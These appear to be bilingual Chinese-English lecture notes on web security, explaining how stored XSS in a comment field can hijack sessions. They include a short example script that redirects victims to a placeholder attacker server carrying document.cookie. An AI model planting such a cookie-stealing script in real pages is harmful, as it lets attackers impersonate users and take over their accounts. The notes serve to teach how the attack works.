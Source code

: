 * 恶意弹窗

# 会话劫持：Session Hijacking

**XSS可以被用来劫持用户的会话**，换句话说，就是冒充他们。•	XSS can be used to hijack a users session, in other terms, impersonate them.【跨域注入

- 会话通常由cookie维护。•	Sessions are normally maintained by cookies.【因为HTTP无状态，，
  - **当一个会话开始时，服务器会向客户端发送一个cookie**。•	When a session starts, the server sends a cookie to the client.
  - 客户端在每次通信时都将cookie返回给服务器。•	The client returns the cookie to the server every time communication occurs.
  - 然后，服务器就会知道在众多的客户端中，是哪个客户端提出了新的请求。•	The server then know which client, out of many, is making the new request.【**识别客户端**
- 如果攻击者能够得到cookie，他们就可以冒充受害者。•	If the attacker can get the cookie, they can impersonate the victim.
- 客户端和服务器之间的通信是唯一的。•	The communications between the client and server are unique.
  - 攻击者必须欺骗服务器，使其向受害者发送恶意代码。•	The attacker must trick the server into sending malicious code to the victim.

# 会话劫持例子

我们假设该网站让用户添加评论，所有用户都可以看到其他用户的评论。•	Let us assume the web site lets users add comments, and all users can see the comments of other users.

- 攻击者**添加了一个评论，其中包括一个连接到由攻击者运行的另一个服务器的脚本**。•	The attacker adds a comment that includes a script that connects to another server run by the attacker.
- 当受害者阅读评论时，他们会被**重定向到假网站**。•	When the victim reads the comments, they are redirected to the fake website.
  - 他们的**cookie会以通常的方式被发送到假网站**。•	Their cookie is sent to the fake website in the usual way.
  - 然后，**攻击者**可以**存储**它。•	The attacker can then store it.
- 攻击者的网站然后将用户重定向到原始网站。•	The attacker’s website then redirects the user back to the original site.
  - 受害者只是注意到一个轻微的闪动。•	The victim just notices a slight flicker.
- 然后，攻击者可以连接到原来的服务器，假装是受害者。•	The attacker can then connect to the original server, pretending to be the victim.

---

简化的劫持脚本例子 simplified Hijacking Script

- 受害者会收到一个嵌入脚本的HTML页面（comment里。•	The victim receives a HTML page with the embedded script.

```html
<script>
document.location.replace("fake_server "+"? what="+document.cookie)
</script>
```

- 这里的代码将把受害者重定向到假服务器。•	The code here will redirect the victim to the fake server.
- **该代码有一个单参数what，其值是会话cookie**。•	The code has a single parameter what with the session cookie as its value.
- 这允许攻击者在他们控制的服务器上使用php窃取cookie id。•	This allows the attacker to steal the cookie id using php on the server they control.
- 一些额外的代码将是必要的，以便**在没有无限循环的情况下将受害者送回原网站**。•	Some additional code will be necessary to send the victim back to the original website without an infinite loop.
